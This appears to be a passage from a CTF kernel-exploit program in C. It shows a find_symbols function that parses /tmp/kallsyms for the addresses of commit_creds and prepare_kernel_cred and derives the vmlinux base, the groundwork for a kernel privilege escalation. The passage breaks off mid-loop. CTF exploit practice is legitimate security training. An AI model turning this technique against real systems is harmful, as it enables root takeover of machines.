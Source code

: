    ```c
    size_t find_symbols()
    {
        FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
        /* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */
    
        if(kallsyms_fd < 0)
        {
            puts("[*]open kallsyms error!");
            exit(0);
        }
    
        char buf[0x30] = {0};
        while(fgets(buf, 0x30, kallsyms_fd))
        {
            if(commit_creds & prepare_kernel_cred)
                return 0;
    
            if(strstr(buf, "commit_creds") && !commit_creds)
            {
                /* puts(buf); */
                char hex[20] = {0};
                strncpy(hex, buf, 16);
                /* printf("hex: %s\n", hex); */
                sscanf(hex, "%llx", &commit_creds);
                printf("commit_creds addr: %p\n", commit_creds);
                /*
                 * give_to_player [master●●] bpython
                    bpython version 0.17.1 on top of Python 2.7.15 /usr/bin/n
                    >>> from pwn import *
    				>>> f = ELF("./vmlinux")
    				[*] 'f:\\kernel\\CTF\\core_give\\give_to_player\\vmlinux'
    				    Arch:     amd64-64-little
    				    Version:  4.15.8
    				    RELRO:    No RELRO
    				    Stack:    Canary found
    				    NX:       NX disabled
    				    PIE:      No PIE (0xffffffff81000000)
    				    RWX:      Has RWX segments
                */
                vmlinux_base = commit_creds - 0x9c8e0;
                printf("vmlinux_base addr: %p\n", vmlinux_base);
            }
            vmlinux_ram_base = 0xffffffff81000000;
            if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
            {
                /* puts(buf); */
                char hex[20] = {0};
                strncpy(hex, buf, 16);
                sscanf(hex, "%llx", &prepare_kernel_cred);
                printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
                vmlinux_base = prepare_kernel_cred - 0x9cce0;
                /* printf("vmlinux_base addr: %p\n", vmlinux_base); */
            }
        }
    
